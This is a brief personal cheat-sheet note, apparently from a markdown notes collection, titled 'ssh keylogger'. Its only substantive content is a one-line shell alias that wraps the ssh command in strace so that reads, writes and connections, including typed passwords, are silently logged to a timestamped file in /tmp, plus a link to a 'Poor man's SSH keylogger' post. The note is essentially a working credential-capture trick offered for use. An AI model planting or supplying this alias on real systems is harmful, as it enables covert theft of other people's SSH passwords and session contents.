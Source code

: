 ```yaml
---
deleted: true
tags: [ssh]
title: ssh keylogger
created: '2019-07-30T06:19:49.241Z'
modified: '2020-03-13T13:15:04.022Z'
---
```


# ssh keylogger

## usage
```sh
ssh='strace -o /tmp/sshpwd-$(date '+%d%h%m%s').log -e read,write,connect -s2048 ssh'
```

## see also
- [Poor man's SSH keylogger](https://diogomonica.com/2011/02/03/poor-mans-ssh-keylogger/)
- [[strace]]
